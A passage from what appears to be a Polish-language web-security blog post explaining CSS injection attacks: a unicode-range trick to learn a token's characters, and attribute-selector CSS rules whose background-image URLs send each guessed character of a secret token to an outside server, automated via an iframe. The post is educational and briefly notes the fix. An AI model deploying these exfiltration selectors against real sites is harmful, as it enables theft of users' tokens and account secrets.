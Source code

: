 [caption id="attachment_857" align="aligncenter" width="1024"]<a href="https://typeofweb.com/wp-content/uploads/2017/12/Screen-Shot-2017-12-14-at-6.35.40-PM.png"><img class="size-large wp-image-857" src="https://typeofweb.com/wp-content/uploads/2017/12/Screen-Shot-2017-12-14-at-6.35.40-PM-1024x690.png" alt="Dzięki unicode-range poznałeś wszystkie znaki w tokenie. W tym przypadku deadbeef01." width="1024" height="690" /></a> Dzięki unicode-range poznałaś/eś wszystkie znaki w tokenie. W tym przypadku deadbeef01.[/caption]

Rezultat? Poznałaś/eś właśnie wszystkie znaki użyte w konkretnym miejscu w aplikacji ofiary. Co mogłaś/eś wykraść? Przykładowo <strong>wszystkie znaki tokena</strong> — z GitHuba, Travisa lub, przykład na czasie, jakiejś giełdy BitCoinowej. <strong>Oczywiście nie znamy konkretnej kombinacji, ale bardzo mocno zawężyłaś/eś sobie zakres poszukiwań i łatwiej będzie Ci teraz przeprowadzić kolejny atak</strong> (bruteforce, albo może socjotechnika?)
<h3>Jak zapobiegać?</h3>
No, jeśli masz buga, która pozwala na wstrzykiwanie CSS to <em>po prostu</em> go napraw. A co jeśli Twoja aplikacja musi polegać na tym, że użytkownicy dodają do niej kod CSS (zdarza się!)? Cóż, masz kłopot! Problem ten został opisany i zgłoszony twórcom Google Chrome, którzy jednak uznali, że <strong>nie jest to bug, a raczej niefortunny efekt uboczny:</strong>
<blockquote>This does seem like an unfortunate side effect.

<footer><cite>Źródło: <a href="https://bugs.chromium.org/p/chromium/issues/detail?id=543078">bugs.chromium.org/p/chromium/issues/detail?id=543078</a></cite></footer></blockquote>
<h2>Hacking przez selektory CSS</h2>
Jak dobrze znasz selektory CSS? Przykładowo, czy wiesz co robi selektor <code>#secret-token[value^=0]</code>? Wybiera on tylko elementy, których atrybut <code>value</code> <strong>zaczyna się od 0</strong>. Więc kolejny wektorem ataku przez CSS jest możliwość wykorzystania właśnie takich selektorów CSS do kradzieży danych z konta ofiary.
<h3>Atak przez selektor</h3>
Wystarczy, że wygenerujesz odpowiedni CSS na wzór tego:
<pre class="language-css"><code>#secret-token[value^=A] {
    background-image: url(http://typeofweb.com/token/A);
}
#secret-token[value^=B] {
    background-image: url(http://typeofweb.com/token/B);
}
#secret-token[value^=C] {
    background-image: url(http://typeofweb.com/token/C);
}
…</code></pre>
Znowu: Dla każdej litery alfabetu generujesz odpowiedni CSS. Jeśli token, który chcesz ukraść zaczyna się od litery A, wtedy Twój serwer zostanie o tym poinformowany. Masz już pierwszą literę, co możesz z tym dalej zrobić? <strong>Wygenerować nowy zestaw selektorów</strong> gdzie pierwszą literą jest <code>A</code>, a zgadywana jest druga litera:
<pre class="language-css"><code>#secret-token[value^=AA] {
    background-image: url(http://localhost:3001/token/A);
}
#secret-token[value^=AB] {
    background-image: url(http://localhost:3001/token/B);
}
#secret-token[value^=AC] {
    background-image: url(http://localhost:3001/token/C);
}
…</code></pre>
<strong>I tak dalej, i tak dalej, aż znajdziesz wszystkie znaki w tokenie.</strong>

Czy to oznacza jednak, że użytkownik będzie musiał sam, dobrowolnie, wiele razy odświeżać stronę i pozwoli się w ten sposób okraść? Wcale nie jest to konieczne, <strong>jeśli tylko aplikację można osadzić wewnątrz <code>&lt;iframe&gt;</code> — wtedy atak można w pełni zautomatyzować</strong>. Na filmiku poniżej możesz zobaczyć kradzież kolejnych znaków z prostego tokena <code>cielecina1</code>:
